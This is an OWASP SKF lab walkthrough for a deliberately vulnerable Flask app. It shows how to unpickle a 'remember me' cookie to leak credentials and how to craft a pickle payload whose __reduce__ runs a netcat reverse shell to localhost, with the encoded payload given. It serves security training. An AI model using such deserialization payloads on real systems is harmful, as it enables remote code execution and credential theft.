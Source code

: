 # KBID xxx - Deserialization - Pickle-2

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:des-pickle-2
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-pickle-2
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
``

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker image and write-up thanks to Contrahack.io !](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

Serialisation is used by application to easely store an object and transfer it across systems and networks. If an application needs to store an instance of a class, it can use serialisation to get a string representation of this object. When the application or an other application needs to use the instance again, it will unserialise the string to get back the object.

Obviously, an attacker can tamper with a string that will be deserialised and potentially trigger unexpected behaviour in the application. Depending on the language and library used, this unexpected behaviour can go from arbitrary object creation to remote code execution. 

Some use cases for python pickle:
1) saving a program's state data to disk so that it can carry on where it left off when restarted (persistence)
2) sending python data over a TCP connection in a multi-core or distributed system (marshalling)
3) storing python objects in a database
4) converting an arbitrary python object to a string so that it can be used as a dictionary key (e.g. for caching & memorization).

Lets start the application and register a new user

![](.gitbook/assets/DES-Register.png)

![](.gitbook/assets/DES-Register2.png)

Please note that (for convenience) your password will be reset if the user already exists.
Also note that the username and password are case sensitive.

Now that we have valid credentials, we can login:

![](.gitbook/assets/DES-Login1.png)

You can check the 'remember me' checkbox if you want to login next time without providing credentials.

After providing the correct credentials we're logged in:

![](.gitbook/assets/DES-Loggedin.png)

To logout, use the link/button in the upper right corner.

The goal is to find where the application uses serialization and create your own serialized object to spawn a reverse shell.

## Exploitation

Once we've successfully logged in using the rememberme checkbox, we can return to the login screen any time and login just by clicking the 'Submit Button' without providing credentials:

![](.gitbook/assets/DES-Rememberme1.png)

This results in the following request and response:

![](.gitbook/assets/DES-Rememberme2.png)

This works because we received a rememberme cookie during our initial login:

![](.gitbook/assets/DES-Rememberme3.png)

As you might have guessed, the remember me cookie is a serialized object, (probably containing your credentials) which will be deserialised and verified, once you submit the login form. This functionality provides you an easy login without entering credentials, but it is not without risk ! If we can deserialise it, the credentials will be leaked. In addition, we can create our own object that that will be deserialized and instantiated if we submit it to the webserver.

If we know or guess the used technology (in this case:pickle serialisation in python), we can try to deserialise the object

From wikipedia:
The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy


```python
import pickle, base64
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
print(pickle.loads(base64.b64decode(b64)).__class__)
```

This shows us the object is an instance of the usr class.
So we can enumerate the properties of the object as follows:

```python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(dir(a))
```

The dir() function returns all properties and methods of the specified object, without the values.
This function will return all the properties and methods, even built-in properties which are default for all object.


```text
This will output the following:
['__class__', '__delattr__', '__dict__', '__dir__', '__doc__', '__eq__', '__format__', '__ge__', '__getattribute__', '__gt__', '__hash__', '__init__', '__init_subclass__', '__le__', '__lt__', '__module__', '__ne__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', '__weakref__', 'password', 'username']
```
The attributes we were looking for are 'password' and 'username'

Putting it all toghther:
```Python
import pickle, base64
class usr(object):
    pass

a= usr()
b64 = 'gANjX19tYWluX18KdXNyCnEAKYFxAX1xAihYCAAAAHVzZXJuYW1lcQNYBAAAAFJ1ZHlxBFgIAAAAcGFzc3dvcmRxBVgZAAAAZGl0aXNtaWpuaGVlbGxhbmdwYXNzd29yZHEGdWIu'
a = pickle.loads(base64.b64decode(b64))
print(a.username)
print(a.password)
```

Although the above was nice to understand what serialization comprehends, we still need to exploit the vulnerability ;-)

To exploit the vulnerability we'll create an object that runs a system command to start a reverse shell.
After instanciating the object, we serialize it and base64 encode it. This output will be our payload. 


```Python
import pickle, base64,os

class skf(object):
  def __reduce__(self):
    return (os.system,("nc -nv 127.0.0.1 1234 -e /bin/sh",))

a = skf()
ser = pickle.dumps(a)
print (base64.b64encode(ser))
```

This will yield the following output:
```Text
gANjcG9zaXgKc3lzdGVtCnEAWCAAAABuYyAtbnYgMTI3LjAuMC4xIDEyMzQgLWUgL2Jpbi9zaHEBhXECUnEDLg==
```

Now we prepare a net cat listner on our machine, ready to receive the reverse shell:

![](.gitbook/assets/DES-nc-listner.png)

We can submit our malicious payload in Burp Suite Repeater by replacing the cookie value with the one we generated above:
![](.gitbook/assets/DES-Sendpayload.png)

A revers shell is is connected:
![](.gitbook/assets/DES-Shell.png)



## Additional sources

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/Deserialization_Cheat_Sheet.html" caption="" %}

